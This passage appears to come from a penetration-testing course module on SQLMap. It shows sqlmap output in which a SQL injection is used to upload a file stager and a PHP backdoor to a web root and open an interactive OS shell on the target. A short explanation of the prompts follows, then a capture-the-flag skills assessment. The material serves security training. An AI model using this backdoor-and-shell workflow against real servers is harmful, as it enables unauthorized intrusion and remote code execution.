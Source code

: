 ```shell
[4] PHP (default)
> 4

do you want sqlmap to further try to provoke the full path disclosure? [Y/n] y

[18:06:07] [WARNING] unable to automatically retrieve the web server document root
what do you want to use for writable directory?
[1] common location(s) ('/var/www/, /var/www/html, /var/www/htdocs, /usr/local/apache2/htdocs, /usr/local/www/data, /var/apache2/htdocs, /var/www/nginx-default, /srv/www/htdocs') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
> 1

[18:06:09] [WARNING] unable to automatically parse any web server path
[18:06:09] [INFO] trying to upload the file stager on '/var/www/' via LIMIT 'LINES TERMINATED BY' method
[18:06:09] [WARNING] potential permission problems detected ('Permission denied')
[18:06:10] [WARNING] unable to upload the file stager on '/var/www/'
[18:06:10] [INFO] trying to upload the file stager on '/var/www/html/' via LIMIT 'LINES TERMINATED BY' method
[18:06:11] [INFO] the file stager has been successfully uploaded on '/var/www/html/' - http://www.example.com/tmpumgzr.php
[18:06:11] [INFO] the backdoor has been successfully uploaded on '/var/www/html/' - http://www.example.com/tmpbznbe.php
[18:06:11] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER

os-shell> ls -la

do you want to retrieve the command standard output? [Y/n/a] a

command standard output:
---
total 156
drwxrwxrwt 1 www-data www-data   4096 Nov 19 18:06 .
drwxr-xr-x 1 www-data www-data   4096 Nov 19 08:15 ..
-rw-rw-rw- 1 mysql    mysql       188 Nov 19 07:39 basic.php
...SNIP...

```

As we can see, this time SQLMap successfully dropped us into an easy interactive remote shell, giving us easy remote code execution through this SQLi.

Note: SQLMap first asked us for the type of language used on this remote server, which we know is PHP. Then it asked us for the server web root directory, and we asked SQLMap to automatically find it using 'common location(s)'. Both of these options are the default options, and would have been automatically chosen if we added the '--batch' option to SQLMap.

With this, we have covered all of the main functionality of SQLMap.


## Skills Assessment

* * *

You are given access to a web application with basic protection mechanisms. Use the skills learned in this module to find the SQLi vulnerability with SQLMap and exploit it accordingly. To complete this module, find the flag and submit it here.


